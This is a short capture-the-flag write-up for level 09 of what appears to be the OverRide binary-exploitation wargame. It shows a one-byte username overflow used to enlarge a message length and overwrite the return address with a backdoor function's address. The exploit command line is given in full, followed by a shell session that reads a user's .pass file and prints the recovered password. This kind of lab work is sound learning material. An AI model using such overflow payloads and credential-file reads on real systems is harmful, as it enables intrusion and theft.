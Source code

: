 # Level 09

We can overflow the username by one byte, and luckly this byte will be used as the length of the message, which is set to 140 by default. But if we make it bigger, we can overflow the EIP.

```shell
python -c 'print 10 * "Peer" + "\xff" ' | ./level09 
```

The address of secret_backdoor is `0x00 00 55 55 55 55 48 8c`.
The offset is 200 (thanks to [Our trusty pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)).
The length of offset + address = 208, converted to hex is D0.

Our exploit becomes:
```shell
level09@OverRide:~$ (python -c 'print 10 * "Peer" + "\xd0";print 200 * "B" + "\x8c\x48\x55\x55\x55\x55\x00\x00";print "/bin/sh" '; cat -) | ./level09
"--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, PeerPeerPeerPeerPeerPeerPeerPeerPeerPeer�>: Msg @Unix-Dude
>>: >: Msg sent!"
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
